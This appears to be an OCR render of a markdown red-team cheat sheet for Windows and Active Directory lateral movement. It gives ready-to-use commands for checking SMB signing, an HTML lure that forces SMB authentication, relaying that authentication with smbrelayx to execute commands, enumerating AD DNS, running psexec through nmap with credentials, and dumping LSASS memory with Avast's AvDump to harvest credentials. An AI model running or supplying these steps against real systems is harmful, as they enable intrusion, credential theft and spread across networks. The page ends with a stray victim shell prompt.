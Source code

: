 ```
## SMB Lateral Movement

Check if SMB signing is disabled on the endpoint:

```
nmap -p 445 <Victim IP> -sS --script smb-security-mode
```

Force authentication by crafting a HTML or file of your choice:

```
<html>
    <h1>The Dietary Benefits of Eating Ben and Jerry's Phish Food</h1>
    <img src="file://<Compromised Host>/download.jpg">
</html>
```

Fire up SMBRelayx tool that will listen for incoming SMB authentication requests and will relay them to the victim and will attempt to execute the command, ipconfig, on the end host:

```
smbrelayx.py -h <Victim IP> -c "ipconfig"
```

## Active Directory DNS Enumeration

The tool ```adidnsdump``` enables enumeration and exporting of all DNS records in the zone for recon purposes of internal networks.

```bash
git clone https://github.com/dirkjanm/adidnsdump
cd adidnsdump
pip install .

adidnsdump -u domain_name\\username ldap://10.10.10.10 -r
cat records.csv
```

## PSexec with NMAP

```
nmap --script smb-psexec.nse -script-args=smbuser=<username>, smbpass=<password>[,config=<config>] -p445 <hosts>
```

## AV LSASS Dump

How to utilize Avast AV to dump LSASS (C:\Program Files\Avast Software\Avast)

```
AvDump.exe --pid 1111 --exception_ptr 0 --thread_id 0 --dump_level 1 --dump_file lsass.dmp
```


[VICTIM]: PS C:\Users\Victim\Documents>